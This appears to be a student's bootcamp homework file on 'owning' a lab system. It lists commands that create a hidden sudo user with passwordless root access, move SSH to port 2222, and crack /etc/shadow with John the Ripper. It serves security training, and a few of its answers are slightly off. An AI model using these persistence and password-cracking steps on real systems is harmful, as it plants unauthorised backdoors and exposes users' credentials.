## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd sysd

2. Give your secret user a password: 
    - passwd sysd

3. Give your secret user a system UID < 1000:
    - usermod sysd -u 666

4. Give your secret user the same GID:
   - groupmod sysd -g 666

5. Give your secret user full `sudo` access without the need for a password:
   -  sysd ALL=(ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:

    ```bash
    sudo visudo
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - sudo systemctl restart ssh

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    - john /etc/shadow -wordlist:/home/student/Desktop/.pass_list.txt

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

